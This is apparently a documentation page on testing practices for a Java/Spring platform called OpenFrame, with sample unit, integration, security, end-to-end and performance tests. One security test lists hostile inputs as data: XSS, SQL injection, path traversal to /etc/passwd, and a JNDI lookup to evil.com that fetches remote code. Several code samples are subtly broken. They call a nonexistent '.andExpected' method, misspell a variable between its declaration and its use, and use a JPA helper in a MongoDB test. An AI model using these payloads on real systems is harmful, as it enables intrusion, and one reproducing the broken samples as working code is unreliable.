

# Testing Overview

OpenFrame employs a comprehensive testing strategy to ensure reliability, security, and maintainability across all components. This guide covers testing approaches, tools, and best practices for the OpenFrame platform.

## Testing Philosophy

OpenFrame testing is built on these principles:

- **Test-Driven Development**: Write tests first, then implement features
- **Pyramid Testing**: More unit tests, fewer integration tests, minimal E2E tests
- **Shift-Left Testing**: Test early and often in the development cycle
- **Security Testing**: Security validation at every layer
- **Multi-Tenant Testing**: Verify tenant isolation in all scenarios

## Testing Pyramid

OpenFrame follows the testing pyramid pattern:



## Test Structure and Organization

### Directory Structure

```text
src/test/java/
├── unit/                           # Unit tests
│   ├── controller/                 # Controller layer tests
│   ├── service/                    # Service layer tests  
│   ├── repository/                 # Repository tests
│   └── util/                       # Utility class tests
├── integration/                    # Integration tests
│   ├── api/                        # API integration tests
│   ├── database/                   # Database integration tests
│   └── security/                   # Security integration tests
├── e2e/                           # End-to-end tests
│   ├── scenarios/                  # User scenario tests
│   └── workflows/                  # Complete workflow tests
└── resources/
    ├── application-test.yml        # Test configuration
    ├── test-data/                  # Test datasets
    └── fixtures/                   # Test fixtures
```

## Unit Testing

### 1. Service Layer Testing

**Example: Device Service Test**

```java
@ExtendWith(MockitoExtension.class)
class DeviceServiceTest {
    
    @Mock
    private DeviceRepository deviceRepository;
    
    @Mock
    private EventPublisher eventPublisher;
    
    @InjectMocks
    private DeviceService deviceService;
    
    private String tenantId = "test-tenant";
    private AuthPrincipal principal;
    
    @BeforeEach
    void setUp() {
        principal = AuthPrincipal.builder()
            .tenantId(tenantId)
            .userId("test-user")
            .build();
    }
    
    @Test
    @DisplayName("Should create device with valid input")
    void shouldCreateDevice() {
        // Given
        CreateDeviceRequest request = CreateDeviceRequest.builder()
            .name("Test Device")
            .type(DeviceType.DESKTOP)
            .build();
            
        Device expectedDevice = Device.builder()
            .id("device-id")
            .name("Test Device")
            .tenantId(tenantId)
            .status(DeviceStatus.PENDING)
            .build();
        
        when(deviceRepository.save(any(Device.class)))
            .thenReturn(expectedDevice);
        
        // When
        Device result = deviceService.createDevice(request, principal);
        
        // Then
        assertThat(result)
            .isNotNull()
            .hasFieldOrPropertyWithValue("name", "Test Device")
            .hasFieldOrPropertyWithValue("tenantId", tenantId)
            .hasFieldOrPropertyWithValue("status", DeviceStatus.PENDING);
        
        verify(deviceRepository).save(argThat(device ->
            device.getName().equals("Test Device") &&
            device.getTenantId().equals(tenantId)
        ));
        
        verify(eventPublisher).publishEvent(any(DeviceCreatedEvent.class));
    }
    
    @Test
    @DisplayName("Should throw exception when device name is duplicate")
    void shouldThrowExceptionForDuplicateName() {
        // Given
        CreateDeviceRequest request = CreateDeviceRequest.builder()
            .name("Existing Device")
            .type(DeviceType.DESKTOP)
            .build();
        
        when(deviceRepository.existsByNameAndTenantId("Existing Device", tenantId))
            .thenReturn(true);
        
        // When & Then
        assertThatThrownBy(() -> deviceService.createDevice(request, principal))
            .isInstanceOf(DuplicateDeviceException.class)
            .hasMessage("Device with name 'Existing Device' already exists");
        
        verify(deviceRepository, never()).save(any());
        verify(eventPublisher, never()).publishEvent(any());
    }
    
    @Test
    @DisplayName("Should enforce tenant isolation when finding devices")
    void shouldEnforceTenantIsolation() {
        // Given
        List<Device> expectedDevices = Arrays.asList(
            Device.builder().id("device-1").tenantId(tenantId).build(),
            Device.builder().id("device-2").tenantId(tenantId).build()
        );
        
        when(deviceRepository.findByTenantId(tenantId))
            .thenReturn(expectedDevices);
        
        // When
        List<Device> result = deviceService.findDevices(principal);
        
        // Then
        assertThat(result)
            .hasSize(2)
            .allMatch(device -> device.getTenantId().equals(tenantId));
        
        verify(deviceRepository).findByTenantId(tenantId);
    }
}
```

### 2. Controller Layer Testing

**Example: REST Controller Test**

```java
@WebMvcTest(DeviceController.class)
@WithMockUser(roles = "USER")
class DeviceControllerTest {
    
    @Autowired
    private MockMvc mockMvc;
    
    @MockBean
    private DeviceService deviceService;
    
    @MockBean
    private AuthPrincipalResolver principalResolver;
    
    private ObjectMapper objectMapper = new ObjectMapper();
    private AuthPrincipal principal;
    
    @BeforeEach
    void setUp() {
        principal = AuthPrincipal.builder()
            .tenantId("test-tenant")
            .userId("test-user")
            .build();
        
        when(principalResolver.resolve(any())).thenReturn(principal);
    }
    
    @Test
    @DisplayName("Should return devices for authenticated user")
    void shouldReturnDevices() throws Exception {
        // Given
        List<Device> devices = Arrays.asList(
            Device.builder().id("device-1").name("Device 1").build(),
            Device.builder().id("device-2").name("Device 2").build()
        );
        
        when(deviceService.findDevices(principal)).thenReturn(devices);
        
        // When & Then
        mockMvc.perform(get("/api/devices")
                .contentType(MediaType.APPLICATION_JSON))
            .andExpect(status().isOk())
            .andExpect(jsonPath("$.length()").value(2))
            .andExpect(jsonPath("$[0].id").value("device-1"))
            .andExpected(jsonPath("$[0].name").value("Device 1"))
            .andExpect(jsonPath("$[1].id").value("device-2"))
            .andExpected(jsonPath("$[1].name").value("Device 2"));
        
        verify(deviceService).findDevices(principal);
    }
    
    @Test
    @DisplayName("Should create device with valid request")
    void shouldCreateDevice() throws Exception {
        // Given
        CreateDeviceRequest request = CreateDeviceRequest.builder()
            .name("New Device")
            .type(DeviceType.DESKTOP)
            .build();
        
        Device createdDevice = Device.builder()
            .id("new-device-id")
            .name("New Device")
            .type(DeviceType.DESKTOP)
            .status(DeviceStatus.PENDING)
            .build();
        
        when(deviceService.createDevice(any(CreateDeviceRequest.class), eq(principal)))
            .thenReturn(createdDevice);
        
        // When & Then
        mockMvc.perform(post("/api/devices")
                .contentType(MediaType.APPLICATION_JSON)
                .content(objectMapper.writeValueAsString(request)))
            .andExpect(status().isCreated())
            .andExpect(jsonPath("$.id").value("new-device-id"))
            .andExpect(jsonPath("$.name").value("New Device"))
            .andExpected(jsonPath("$.status").value("PENDING"));
        
        verify(deviceService).createDevice(any(CreateDeviceRequest.class), eq(principal));
    }
    
    @Test
    @DisplayName("Should return 400 for invalid request")
    void shouldReturn400ForInvalidRequest() throws Exception {
        // Given
        CreateDeviceRequest invalidRequest = CreateDeviceRequest.builder()
            .name("")  // Invalid: empty name
            .type(null)  // Invalid: null type
            .build();
        
        // When & Then
        mockMvc.perform(post("/api/devices")
                .contentType(MediaType.APPLICATION_JSON)
                .content(objectMapper.writeValueAsString(invalidRequest)))
            .andExpect(status().isBadRequest())
            .andExpect(jsonPath("$.errors").isArray())
            .andExpect(jsonPath("$.errors[*].field").value(hasItems("name", "type")));
        
        verify(deviceService, never()).createDevice(any(), any());
    }
}
```

### 3. Repository Layer Testing

**Example: MongoDB Repository Test**

```java
@DataMongoTest
@TestPropertySource(properties = {
    "spring.data.mongodb.database=openframe_test"
})
class DeviceRepositoryTest {
    
    @Autowired
    private TestEntityManager entityManager;
    
    @Autowired
    private DeviceRepository deviceRepository;
    
    private String tenantId = "test-tenant";
    private String otherTenantId = "other-tenant";
    
    @BeforeEach
    void setUp() {
        deviceRepository.deleteAll();
    }
    
    @Test
    @DisplayName("Should find devices by tenant ID")
    void shouldFindDevicesByTenantId() {
        // Given
        Device device1 = createDevice("device-1", "Device 1", tenantId);
        Device device2 = createDevice("device-2", "Device 2", tenantId);
        Device otherTenantDevice = createDevice("device-3", "Device 3", otherTenantId);
        
        deviceRepository.saveAll(Arrays.asList(device1, device2, otherTenantDevice));
        
        // When
        List<Device> result = deviceRepository.findByTenantId(tenantId);
        
        // Then
        assertThat(result)
            .hasSize(2)
            .extracting(Device::getId)
            .containsExactlyInAnyOrder("device-1", "device-2");
        
        assertThat(result)
            .allMatch(device -> device.getTenantId().equals(tenantId));
    }
    
    @Test
    @DisplayName("Should enforce tenant isolation in findById")
    void shouldEnforceTenantIsolationInFindById() {
        // Given
        Device device = createDevice("device-1", "Device 1", tenantId);
        deviceRepository.save(device);
        
        // When
        Optional<Device> sameTeantResult = 
            deviceRepository.findByIdAndTenantId("device-1", tenantId);
        Optional<Device> otherTenantResult = 
            deviceRepository.findByIdAndTenantId("device-1", otherTenantId);
        
        // Then
        assertThat(sameTenantResult).isPresent();
        assertThat(otherTenantResult).isEmpty();
    }
    
    @Test
    @DisplayName("Should check existence by name and tenant")
    void shouldCheckExistenceByNameAndTenant() {
        // Given
        Device device = createDevice("device-1", "Unique Device", tenantId);
        deviceRepository.save(device);
        
        // When & Then
        assertThat(deviceRepository.existsByNameAndTenantId("Unique Device", tenantId))
            .isTrue();
        
        assertThat(deviceRepository.existsByNameAndTenantId("Unique Device", otherTenantId))
            .isFalse();
        
        assertThat(deviceRepository.existsByNameAndTenantId("Non-existent", tenantId))
            .isFalse();
    }
    
    private Device createDevice(String id, String name, String tenantId) {
        return Device.builder()
            .id(id)
            .name(name)
            .tenantId(tenantId)
            .status(DeviceStatus.ONLINE)
            .createdAt(Instant.now())
            .build();
    }
}
```

## Integration Testing

### 1. API Integration Testing

**Example: Full API Integration Test**

```java
@SpringBootTest(webEnvironment = SpringBootTest.WebEnvironment.RANDOM_PORT)
@TestPropertySource(properties = {
    "spring.data.mongodb.database=openframe_integration_test",
    "app.security.enabled=false"  // Disable security for integration tests
})
@Testcontainers
class DeviceApiIntegrationTest {
    
    @Container
    static MongoDBContainer mongoDBContainer = new MongoDBContainer("mongo:5.0")
            .withExposedPorts(27017);
    
    @Container
    static RedisContainer redisContainer = new RedisContainer("redis:6.2")
            .withExposedPorts(6379);
    
    @Autowired
    private TestRestTemplate restTemplate;
    
    @Autowired
    private DeviceRepository deviceRepository;
    
    @LocalServerPort
    private int port;
    
    private String baseUrl;
    private HttpHeaders headers;
    
    @DynamicPropertySource
    static void configureProperties(DynamicPropertyRegistry registry) {
        registry.add("spring.data.mongodb.uri", mongoDBContainer::getReplicaSetUrl);
        registry.add("spring.redis.host", redisContainer::getHost);
        registry.add("spring.redis.port", redisContainer::getFirstMappedPort);
    }
    
    @BeforeEach
    void setUp() {
        baseUrl = "http://localhost:" + port + "/api";
        
        headers = new HttpHeaders();
        headers.setContentType(MediaType.APPLICATION_JSON);
        headers.set("X-Tenant-ID", "test-tenant");  // Set tenant context
        
        deviceRepository.deleteAll();
    }
    
    @Test
    @DisplayName("Should complete full device lifecycle")
    void shouldCompleteDeviceLifecycle() {
        // 1. Create device
        CreateDeviceRequest createRequest = CreateDeviceRequest.builder()
            .name("Integration Test Device")
            .type(DeviceType.DESKTOP)
            .build();
        
        HttpEntity<CreateDeviceRequest> createEntity = 
            new HttpEntity<>(createRequest, headers);
        
        ResponseEntity<Device> createResponse = restTemplate.exchange(
            baseUrl + "/devices",
            HttpMethod.POST,
            createEntity,
            Device.class
        );
        
        assertThat(createResponse.getStatusCode()).isEqualTo(HttpStatus.CREATED);
        assertThat(createResponse.getBody()).isNotNull();
        
        String deviceId = createResponse.getBody().getId();
        
        // 2. Retrieve device
        ResponseEntity<Device> getResponse = restTemplate.exchange(
            baseUrl + "/devices/" + deviceId,
            HttpMethod.GET,
            new HttpEntity<>(headers),
            Device.class
        );
        
        assertThat(getResponse.getStatusCode()).isEqualTo(HttpStatus.OK);
        assertThat(getResponse.getBody().getName()).isEqualTo("Integration Test Device");
        
        // 3. Update device
        UpdateDeviceRequest updateRequest = UpdateDeviceRequest.builder()
            .name("Updated Device Name")
            .build();
        
        HttpEntity<UpdateDeviceRequest> updateEntity = 
            new HttpEntity<>(updateRequest, headers);
        
        ResponseEntity<Device> updateResponse = restTemplate.exchange(
            baseUrl + "/devices/" + deviceId,
            HttpMethod.PUT,
            updateEntity,
            Device.class
        );
        
        assertThat(updateResponse.getStatusCode()).isEqualTo(HttpStatus.OK);
        assertThat(updateResponse.getBody().getName()).isEqualTo("Updated Device Name");
        
        // 4. List devices
        ResponseEntity<Device[]> listResponse = restTemplate.exchange(
            baseUrl + "/devices",
            HttpMethod.GET,
            new HttpEntity<>(headers),
            Device[].class
        );
        
        assertThat(listResponse.getStatusCode()).isEqualTo(HttpStatus.OK);
        assertThat(listResponse.getBody()).hasSize(1);
        assertThat(listResponse.getBody()[0].getId()).isEqualTo(deviceId);
        
        // 5. Delete device
        ResponseEntity<Void> deleteResponse = restTemplate.exchange(
            baseUrl + "/devices/" + deviceId,
            HttpMethod.DELETE,
            new HttpEntity<>(headers),
            Void.class
        );
        
        assertThat(deleteResponse.getStatusCode()).isEqualTo(HttpStatus.NO_CONTENT);
        
        // 6. Verify deletion
        ResponseEntity<Device[]> emptyListResponse = restTemplate.exchange(
            baseUrl + "/devices",
            HttpMethod.GET,
            new HttpEntity<>(headers),
            Device[].class
        );
        
        assertThat(emptyListResponse.getBody()).isEmpty();
    }
    
    @Test
    @DisplayName("Should enforce tenant isolation in API")
    void shouldEnforceTenantIsolation() {
        // Create device in tenant A
        headers.set("X-Tenant-ID", "tenant-a");
        
        CreateDeviceRequest request = CreateDeviceRequest.builder()
            .name("Tenant A Device")
            .type(DeviceType.DESKTOP)
            .build();
        
        HttpEntity<CreateDeviceRequest> entity = new HttpEntity<>(request, headers);
        
        ResponseEntity<Device> createResponse = restTemplate.exchange(
            baseUrl + "/devices",
            HttpMethod.POST,
            entity,
            Device.class
        );
        
        String deviceId = createResponse.getBody().getId();
        
        // Try to access device from tenant B
        headers.set("X-Tenant-ID", "tenant-b");
        
        ResponseEntity<String> getResponse = restTemplate.exchange(
            baseUrl + "/devices/" + deviceId,
            HttpMethod.GET,
            new HttpEntity<>(headers),
            String.class
        );
        
        assertThat(getResponse.getStatusCode()).isEqualTo(HttpStatus.NOT_FOUND);
    }
}
```

### 2. Database Integration Testing

```java
@DataMongoTest
@Testcontainers
class MongoIntegrationTest {
    
    @Container
    static MongoDBContainer mongoDBContainer = new MongoDBContainer("mongo:5.0");
    
    @Autowired
    private MongoTemplate mongoTemplate;
    
    @DynamicPropertySource
    static void configureProperties(DynamicPropertyRegistry registry) {
        registry.add("spring.data.mongodb.uri", mongoDBContainer::getReplicaSetUrl);
    }
    
    @Test
    @DisplayName("Should handle MongoDB transactions")
    void shouldHandleTransactions() {
        // Test transaction behavior
        TransactionTemplate transactionTemplate = new TransactionTemplate(
            new MongoTransactionManager(mongoTemplate.getMongoDbFactory())
        );
        
        assertThatThrownBy(() -> {
            transactionTemplate.execute(status -> {
                // Create device
                Device device = Device.builder()
                    .name("Transaction Test")
                    .tenantId("test-tenant")
                    .build();
                mongoTemplate.save(device);
                
                // Simulate error
                throw new RuntimeException("Simulated error");
            });
        }).isInstanceOf(RuntimeException.class);
        
        // Verify rollback
        assertThat(mongoTemplate.findAll(Device.class)).isEmpty();
    }
}
```

## GraphQL Testing

### 1. GraphQL Query Testing

```java
@GraphQlTest(DeviceDataFetcher.class)
class DeviceGraphQlTest {
    
    @Autowired
    private GraphQlTester graphQlTester;
    
    @MockBean
    private DeviceService deviceService;
    
    @Test
    @DisplayName("Should return devices via GraphQL query")
    void shouldReturnDevicesViaGraphQL() {
        // Given
        List<Device> devices = Arrays.asList(
            Device.builder().id("device-1").name("Device 1").build(),
            Device.builder().id("device-2").name("Device 2").build()
        );
        
        when(deviceService.findDevices(any())).thenReturn(devices);
        
        // When & Then
        graphQlTester
            .document("""
                query {
                    devices {
                        id
                        name
                        status
                    }
                }
                """)
            .execute()
            .path("devices")
            .entityList(Device.class)
            .hasSize(2)
            .contains(devices.get(0), devices.get(1));
    }
    
    @Test
    @DisplayName("Should handle GraphQL mutations")
    void shouldHandleGraphQLMutations() {
        // Given
        Device createdDevice = Device.builder()
            .id("new-device")
            .name("New Device")
            .status(DeviceStatus.PENDING)
            .build();
        
        when(deviceService.createDevice(any(), any())).thenReturn(createdDevice);
        
        // When & Then
        graphQlTester
            .document("""
                mutation CreateDevice($input: CreateDeviceInput!) {
                    createDevice(input: $input) {
                        id
                        name
                        status
                    }
                }
                """)
            .variable("input", Map.of(
                "name", "New Device",
                "type", "DESKTOP"
            ))
            .execute()
            .path("createDevice")
            .entity(Device.class)
            .matches(device -> device.getName().equals("New Device"));
    }
}
```

## Security Testing

### 1. Authentication Testing

```java
@SpringBootTest
@AutoConfigureTestDatabase(replace = AutoConfigureTestDatabase.Replace.NONE)
class SecurityIntegrationTest {
    
    @Autowired
    private MockMvc mockMvc;
    
    @Autowired
    private JwtEncoder jwtEncoder;
    
    @Test
    @DisplayName("Should reject requests without authentication")
    void shouldRejectUnauthenticatedRequests() throws Exception {
        mockMvc.perform(get("/api/devices"))
            .andExpected(status().isUnauthorized());
    }
    
    @Test
    @DisplayName("Should accept requests with valid JWT")
    void shouldAcceptValidJWT() throws Exception {
        // Given
        String validToken = createValidJWT("test-tenant", "test-user");
        
        // When & Then
        mockMvc.perform(get("/api/devices")
                .header("Authorization", "Bearer " + validToken))
            .andExpect(status().isOk());
    }
    
    @Test
    @DisplayName("Should enforce tenant isolation")
    void shouldEnforceTenantIsolation() throws Exception {
        // Create device in tenant A
        String tenantAToken = createValidJWT("tenant-a", "user-a");
        
        MvcResult createResult = mockMvc.perform(post("/api/devices")
                .header("Authorization", "Bearer " + tenantAToken)
                .contentType(MediaType.APPLICATION_JSON)
                .content("""
                    {
                        "name": "Tenant A Device",
                        "type": "DESKTOP"
                    }
                    """))
            .andExpect(status().isCreated())
            .andReturn();
        
        String deviceId = JsonPath.read(createResult.getResponse().getContentAsString(), "$.id");
        
        // Try to access with tenant B token
        String tenantBToken = createValidJWT("tenant-b", "user-b");
        
        mockMvc.perform(get("/api/devices/" + deviceId)
                .header("Authorization", "Bearer " + tenantBToken))
            .andExpect(status().isForbidden());
    }
    
    private String createValidJWT(String tenantId, String userId) {
        Instant now = Instant.now();
        
        JwtClaimsSet claims = JwtClaimsSet.builder()
            .issuer("https://openframe.local")
            .subject(userId)
            .audience(Arrays.asList("openframe-api"))
            .issuedAt(now)
            .expiresAt(now.plus(1, ChronoUnit.HOURS))
            .claim("tenant_id", tenantId)
            .claim("scope", "read:devices write:devices")
            .build();
        
        return jwtEncoder.encode(JwtEncoderParameters.from(claims)).getTokenValue();
    }
}
```

### 2. Input Validation Testing

```java
@ParameterizedTest
@ValueSource(strings = {
    "<script>alert('xss')</script>",
    "'; DROP TABLE devices; --",
    "../../../etc/passwd",
    "${jndi:ldap://evil.com/exploit}"
})
@DisplayName("Should reject malicious input")
void shouldRejectMaliciousInput(String maliciousInput) throws Exception {
    String validToken = createValidJWT("test-tenant", "test-user");
    
    mockMvc.perform(post("/api/devices")
            .header("Authorization", "Bearer " + validToken)
            .contentType(MediaType.APPLICATION_JSON)
            .content(String.format("""
                {
                    "name": "%s",
                    "type": "DESKTOP"
                }
                """, maliciousInput)))
        .andExpect(status().isBadRequest());
}
```

## End-to-End Testing

### 1. Complete User Workflow Testing

```java
@SpringBootTest(webEnvironment = SpringBootTest.WebEnvironment.DEFINED_PORT)
@Testcontainers
class DeviceWorkflowE2ETest {
    
    @Container
    static MongoDBContainer mongoDBContainer = new MongoDBContainer("mongo:5.0");
    
    @Container
    static RedisContainer redisContainer = new RedisContainer("redis:6.2");
    
    private WebDriver driver;
    
    @BeforeEach
    void setUp() {
        // Use headless browser for CI
        ChromeOptions options = new ChromeOptions();
        options.addArguments("--headless", "--no-sandbox", "--disable-dev-shm-usage");
        driver = new ChromeDriver(options);
    }
    
    @AfterEach
    void tearDown() {
        if (driver != null) {
            driver.quit();
        }
    }
    
    @Test
    @DisplayName("Should complete device management workflow")
    void shouldCompleteDeviceWorkflow() {
        // 1. Login
        driver.get("http://localhost:8080/login");
        driver.findElement(By.id("username")).sendKeys("admin@test.com");
        driver.findElement(By.id("password")).sendKeys("password123");
        driver.findElement(By.id("login-button")).click();
        
        // Wait for dashboard to load
        WebDriverWait wait = new WebDriverWait(driver, Duration.ofSeconds(10));
        wait.until(ExpectedConditions.presenceOfElementLocated(By.id("dashboard")));
        
        // 2. Navigate to devices
        driver.findElement(By.id("devices-menu")).click();
        wait.until(ExpectedConditions.presenceOfElementLocated(By.id("devices-page")));
        
        // 3. Add new device
        driver.findElement(By.id("add-device-button")).click();
        
        WebElement nameField = wait.until(
            ExpectedConditions.presenceOfElementLocated(By.id("device-name"))
        );
        nameField.sendKeys("E2E Test Device");
        
        Select typeSelect = new Select(driver.findElement(By.id("device-type")));
        typeSelect.selectByValue("DESKTOP");
        
        driver.findElement(By.id("save-device-button")).click();
        
        // 4. Verify device appears in list
        wait.until(ExpectedConditions.textToBePresentInElement(
            By.id("devices-table"),
            "E2E Test Device"
        ));
        
        // 5. Edit device
        driver.findElement(By.xpath("//tr[contains(., 'E2E Test Device')]//button[@title='Edit']"))
            .click();
        
        WebElement editNameField = wait.until(
            ExpectedConditions.presenceOfElementLocated(By.id("edit-device-name"))
        );
        editNameField.clear();
        editNameField.sendKeys("Updated E2E Device");
        
        driver.findElement(By.id("update-device-button")).click();
        
        // 6. Verify update
        wait.until(ExpectedConditions.textToBePresentInElement(
            By.id("devices-table"),
            "Updated E2E Device"
        ));
        
        // 7. Delete device
        driver.findElement(By.xpath("//tr[contains(., 'Updated E2E Device')]//button[@title='Delete']"))
            .click();
        
        // Confirm deletion
        driver.findElement(By.id("confirm-delete-button")).click();
        
        // 8. Verify deletion
        wait.until(ExpectedConditions.not(
            ExpectedConditions.textToBePresentInElement(
                By.id("devices-table"),
                "Updated E2E Device"
            )
        ));
    }
}
```

## Test Data Management

### 1. Test Data Builders

```java
public class DeviceTestDataBuilder {
    
    private String id = "test-device-" + UUID.randomUUID().toString().substring(0, 8);
    private String name = "Test Device";
    private String tenantId = "test-tenant";
    private DeviceType type = DeviceType.DESKTOP;
    private DeviceStatus status = DeviceStatus.ONLINE;
    private Instant createdAt = Instant.now();
    
    public static DeviceTestDataBuilder aDevice() {
        return new DeviceTestDataBuilder();
    }
    
    public DeviceTestDataBuilder withId(String id) {
        this.id = id;
        return this;
    }
    
    public DeviceTestDataBuilder withName(String name) {
        this.name = name;
        return this;
    }
    
    public DeviceTestDataBuilder withTenantId(String tenantId) {
        this.tenantId = tenantId;
        return this;
    }
    
    public DeviceTestDataBuilder withType(DeviceType type) {
        this.type = type;
        return this;
    }
    
    public DeviceTestDataBuilder withStatus(DeviceStatus status) {
        this.status = status;
        return this;
    }
    
    public DeviceTestDataBuilder offline() {
        this.status = DeviceStatus.OFFLINE;
        return this;
    }
    
    public DeviceTestDataBuilder pending() {
        this.status = DeviceStatus.PENDING;
        return this;
    }
    
    public Device build() {
        return Device.builder()
            .id(id)
            .name(name)
            .tenantId(tenantId)
            .type(type)
            .status(status)
            .createdAt(createdAt)
            .build();
    }
}

// Usage in tests
@Test
void testWithCustomDevice() {
    Device device = aDevice()
        .withName("Custom Device")
        .withTenantId("special-tenant")
        .offline()
        .build();
        
    // Test logic
}
```

### 2. Test Database Seeding

```java
@Component
@Profile("test")
public class TestDataSeeder {
    
    @Autowired
    private DeviceRepository deviceRepository;
    
    @EventListener
    public void seedTestData(ApplicationReadyEvent event) {
        if (deviceRepository.count() == 0) {
            seedDevices();
        }
    }
    
    private void seedDevices() {
        List<Device> devices = Arrays.asList(
            aDevice().withName("Test Device 1").withTenantId("tenant-1").build(),
            aDevice().withName("Test Device 2").withTenantId("tenant-1").build(),
            aDevice().withName("Test Device 3").withTenantId("tenant-2").offline().build()
        );
        
        deviceRepository.saveAll(devices);
    }
}
```

## Performance Testing

### 1. Load Testing

```java
@Test
@DisplayName("Should handle concurrent device creation")
void shouldHandleConcurrentDeviceCreation() throws InterruptedException {
    int numberOfThreads = 10;
    int devicesPerThread = 100;
    
    ExecutorService executor = Executors.newFixedThreadPool(numberOfThreads);
    CountDownLatch latch = new CountDownLatch(numberOfThreads);
    
    List<Future<Boolean>> futures = new ArrayList<>();
    
    for (int i = 0; i < numberOfThreads; i++) {
        final int threadId = i;
        
        Future<Boolean> future = executor.submit(() -> {
            try {
                for (int j = 0; j < devicesPerThread; j++) {
                    CreateDeviceRequest request = CreateDeviceRequest.builder()
                        .name(String.format("Device-%d-%d", threadId, j))
                        .type(DeviceType.DESKTOP)
                        .build();
                    
                    deviceService.createDevice(request, principal);
                }
                return true;
            } catch (Exception e) {
                log.error("Thread {} failed", threadId, e);
                return false;
            } finally {
                latch.countDown();
            }
        });
        
        futures.add(future);
    }
    
    // Wait for all threads to complete
    assertThat(latch.await(30, TimeUnit.SECONDS)).isTrue();
    
    // Verify all threads succeeded
    for (Future<Boolean> future : futures) {
        assertThat(future.get()).isTrue();
    }
    
    // Verify total count
    long totalDevices = deviceRepository.countByTenantId("test-tenant");
    assertThat(totalDevices).isEqualTo(numberOfThreads * devicesPerThread);
}
```

### 2. Memory Testing

```java
@Test
@DisplayName("Should not leak memory with large datasets")
void shouldNotLeakMemory() {
    Runtime runtime = Runtime.getRuntime();
    long initialMemory = runtime.totalMemory() - runtime.freeMemory();
    
    // Process large dataset
    for (int i = 0; i < 10000; i++) {
        List<Device> devices = deviceService.findDevices(principal);
        // Process devices
        devices.clear();
    }
    
    // Force garbage collection
    System.gc();
    Thread.yield();
    
    long finalMemory = runtime.totalMemory() - runtime.freeMemory();
    long memoryIncrease = finalMemory - initialMemory;
    
    // Memory increase should be reasonable (less than 100MB)
    assertThat(memoryIncrease).isLessThan(100 * 1024 * 1024);
}
```

## Test Configuration

### 1. Test Properties

```yaml
# application-test.yml
spring:
  profiles:
    active: test
  
  data:
    mongodb:
      database: openframe_test
  
  security:
    enabled: false  # Disable security for faster tests
  
  kafka:
    bootstrap-servers: ${embedded.kafka.brokers}
  
logging:
  level:
    com.openframe: DEBUG
    org.springframework.test: DEBUG
  
app:
  testing:
    cleanup-after-tests: true
    seed-test-data: false
    mock-external-services: true
```

### 2. Test Configuration Classes

```java
@TestConfiguration
public class TestConfig {
    
    @Bean
    @Primary
    public Clock testClock() {
        // Fixed clock for consistent test results
        return Clock.fixed(Instant.parse("2024-01-01T00:00:00Z"), ZoneOffset.UTC);
    }
    
    @Bean
    @Primary
    public EventPublisher mockEventPublisher() {
        return Mockito.mock(EventPublisher.class);
    }
    
    @Bean
    @Profile("test")
    public TestDataSeeder testDataSeeder() {
        return new TestDataSeeder();
    }
}
```

## Running Tests

### 1. Maven Commands

```bash
# Run all tests
mvn test

# Run only unit tests
mvn test -Dgroups=unit

# Run only integration tests  
mvn test -Dgroups=integration

# Run specific test class
mvn test -Dtest=DeviceServiceTest

# Run tests with coverage
mvn test jacoco:report

# Run tests with specific profile
mvn test -Dspring.profiles.active=test
```

### 2. IDE Test Configuration

**IntelliJ IDEA:**
1. Set default test runner to JUnit 5
2. Configure test VM options: `-Dspring.profiles.active=test`
3. Set up test templates for consistent test structure

**VSCode:**
1. Install Java Test Runner extension
2. Configure test settings in settings.json
3. Set up launch configurations for different test types

## Continuous Integration

### 1. CI Pipeline Testing

```yaml
# .github/workflows/tests.yml
name: Tests

on: [push, pull_request]

jobs:
  test:
    runs-on: ubuntu-latest
    
    services:
      mongodb:
        image: mongo:5.0
        ports:
          - 27017:27017
      redis:
        image: redis:6.2
        ports:
          - 6379:6379
    
    steps:
      - uses: actions/checkout@v2
      
      - name: Set up JDK 21
        uses: actions/setup-java@v2
        with:
          java-version: '21'
          distribution: 'temurin'
      
      - name: Cache Maven dependencies
        uses: actions/cache@v2
        with:
          path: ~/.m2
          key: ${{ runner.os }}-m2-${{ hashFiles('**/pom.xml') }}
      
      - name: Run unit tests
        run: mvn test -Dgroups=unit
      
      - name: Run integration tests
        run: mvn test -Dgroups=integration
      
      - name: Generate coverage report
        run: mvn jacoco:report
      
      - name: Upload coverage to Codecov
        uses: codecov/codecov-action@v2
```

## Best Practices Summary

### 1. Test Quality Guidelines

- **Write Clear Test Names**: Use descriptive test names that explain what is being tested
- **Follow AAA Pattern**: Arrange, Act, Assert structure for clarity
- **Test One Thing**: Each test should verify one specific behavior
- **Use Test Builders**: Create reusable test data builders
- **Mock External Dependencies**: Isolate units under test
- **Test Edge Cases**: Include boundary conditions and error scenarios

### 2. Performance Guidelines

- **Keep Tests Fast**: Unit tests should run in milliseconds
- **Use Test Slices**: Use `@WebMvcTest`, `@DataJpaTest` for focused testing
- **Parallel Execution**: Configure tests to run in parallel when possible
- **Resource Management**: Clean up resources after tests

### 3. Maintenance Guidelines

- **Keep Tests Updated**: Update tests when code changes
- **Remove Obsolete Tests**: Delete tests for removed features
- **Refactor Test Code**: Apply same quality standards as production code
- **Document Complex Tests**: Add comments for complex test scenarios

## Next Steps

To implement comprehensive testing in your OpenFrame development:

1. **[Review Contributing Guidelines](../contributing/guidelines.md)** - Understand code quality standards
2. **[Join Testing Discussions](https://join.slack.com/t/openmsp/shared_invite/zt-36bl7mx0h-3~U2nFH6nqHqoTPXMaHEHA)** - Connect with other developers about testing practices
3. **Practice TDD**: Start with failing tests, then implement features
4. **Continuous Improvement**: Regularly review and improve test coverage and quality

Testing is crucial for maintaining OpenFrame's reliability and security. Every feature should be thoroughly tested before deployment.